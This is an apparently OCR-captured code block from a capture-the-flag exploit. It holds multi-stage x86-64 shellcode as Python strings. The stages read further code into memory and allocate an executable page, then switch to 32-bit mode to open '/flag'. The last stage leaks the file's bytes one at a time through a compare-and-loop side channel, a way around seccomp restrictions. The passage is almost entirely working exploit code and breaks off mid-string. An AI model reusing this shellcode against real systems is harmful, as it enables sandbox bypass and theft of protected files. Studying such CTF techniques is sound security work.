 ```plain
    shellcode1 = '''
        mov r10,rbx
        add r10w,0x0140
        xor rdi,rdi
        mov rsi,r10    
        xor rdx,rdx
        add dx,0x1040
        xor rax,rax
        syscall
        jmp r10
    '''
    shellcode2 = '''

        mov rdi,0x40000000
        mov rsi,0x1000
        mov rdx,0x7
        mov r10,0x22
        mov r8,0xFFFFFFFF
        xor r9,r9
        mov rax,0x9
        syscall

        mov rsi,rdi
        xor rdi,rdi
        mov rdx,0x1000
        xor rax,rax
        syscall
        jmp rsi
    '''
    shellcode3_ = '''
        mov r10,0x2300000000
        add rsi,0x13
        add rsi,r10
        push rsi
        retf

        mov esp,0x40000400
        push 0x0067
        push 0x616c662f
        mov ebx,esp
        xor ecx,ecx
        mov edx,0x7
        mov eax,0x5
        int 0x80

        push 0x33
        push 0x40000037
        retf

        mov rdi,rax
        mov rsi,0x40000500
        mov rdx,0x80
        xor rax,rax
        syscall

        push 0
        cmp byte ptr[rsi+{0}],{1}
        jz $-3
        ret 
    '''.format(a,b) if a==0 else '''

        mov r10,0x2300000000
        add rsi,0x13
```